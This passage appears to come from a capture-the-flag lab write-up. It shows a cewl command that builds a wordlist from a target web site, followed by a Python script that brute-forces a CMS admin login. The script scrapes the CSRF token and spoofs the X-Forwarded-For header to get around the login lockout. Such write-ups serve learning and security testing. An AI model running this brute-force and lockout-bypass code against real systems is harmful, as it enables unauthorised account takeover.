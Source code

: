 ~~~
kali@kali:/data/tmp$ cewl -w passwords.txt http://10.10.10.191
~~~

I slightly adapted the script to read this wordlist as follows:

```python
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []

with open('passwords.txt') as f:
    content = f.readlines()
    pwd = [x.strip() for x in content]

wordlist = pwd

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```
